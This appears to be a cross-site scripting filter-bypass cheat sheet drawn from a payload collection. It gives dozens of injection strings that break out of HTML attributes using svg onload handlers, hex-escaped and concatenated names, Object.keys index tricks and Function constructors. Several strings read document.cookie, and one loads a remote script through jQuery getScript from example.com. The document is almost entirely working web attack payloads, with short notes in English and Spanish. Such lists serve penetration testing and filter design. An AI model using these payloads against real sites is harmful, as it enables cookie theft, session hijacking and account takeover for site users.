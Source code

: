 From [@theMiddle](https://www.secjuice.com/bypass-xss-filters-using-javascript-global-variables/) - Using global variables

The Object.keys() method returns an array of a given object's own property names, in the same order as we get with a normal loop. That's means that we can access any JavaScript function by using its **index number instead the function name**.

```javascript
cgonzalo"><svg/onload=window["alert"](window["document"]["cookie"]);>

cgonzalo"><svg/onload=self["ale"+"rt"](self["doc"+"ument"]["coo"+"kie"])>

cgonzalo"><svg/oNmOuSeOvEr=self["\x61\x6c\x65\x72\x74"](self["\x64\x6f\x63\x75\x6d\x65\x6e\x74"]["\x63\x6f\x6f\x6b\x69\x65"])>

cgonzalo"><svg/onload=self["$"]["globalEval"]("alert(1)");>

cgonzalo"><svg/onload=self["\x24"]["\x67\x6c\x6f\x62\x61\x6c\x45\x76\x61\x6c"]("\x61\x6c\x65\x72\x74\x28\x31\x29");>

cgonzalo"><img src="self["$"]["getScript"]("https://example.com/my.js");">

---
Recorrer el array para determinar qué número es "alert":
c=0; for(i in self) { if(i == "alert") { console.log(c); } c++; }

Ejecutar payload con el número encontrado:
cgonzalo"><svg/onload=self[Object.keys(self)[5]](8)>

Ejecutar en una linea todo (a veces no sirve):
cgonzalo"><script>a=()=>{c=0;for(i in self){if(/^a[rel]+t$/.test(i)){return c}c++}};self[Object.keys(self)[a()]]("1")</script>
---
```

From [@quanyang](https://twitter.com/quanyang/status/1078536601184030721) tweet.

```javascript
prompt`${document.domain}`
document.location='java\tscript:alert(1)'
document.location='java\rscript:alert(1)'
document.location='java\tscript:alert(1)'
```

From [@404death](https://twitter.com/404death/status/1011860096685502464) tweet.

```javascript
eval('ale'+'rt(0)');
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;

constructor.constructor("aler"+"t(3)")();
[].filter.constructor('ale'+'rt(4)')();

top["al"+"ert"](5);
top[8680439..toString(30)](7);
top[/al/.source+/ert/.source](8);
top['al\x65rt'](9);

open('java'+'script:ale'+'rt(11)');
location='javascript:ale'+'rt(12)';

setTimeout`alert\u0028document.domain\u0029`;
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
```